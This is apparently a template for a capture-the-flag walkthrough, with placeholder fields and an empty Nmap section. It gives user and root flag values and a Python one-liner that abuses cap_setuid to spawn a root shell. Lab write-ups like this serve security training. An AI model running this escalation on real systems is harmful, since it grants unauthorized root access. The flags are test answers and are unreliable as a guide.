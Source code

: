 ```yaml
---
title: "{{Title}}"
tags: []
created: "{{Date}}"
---
```

# {{Title}} Walkthrough

## Target Information

- **IP Address:** 
- **Difficulty:**

## Enumeration & Initial Access

Performing an **Nmap scan** reveals open ports and running services:

```bash

```



Inside the files, we find the **user flag**:

```bash
cat user.flag
8f924ea0b473ca1215c0191f24099c8a
```

## Privilege Escalation & Root Access


### Exploiting Capabilities for Root

Using `cap_setuid`, we escalate privileges to **root**:

```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

Retrieving the **root flag**:

```bash
cat /root/root.flag
8ee2f68678e4e18184b49c7e2fc80b93
```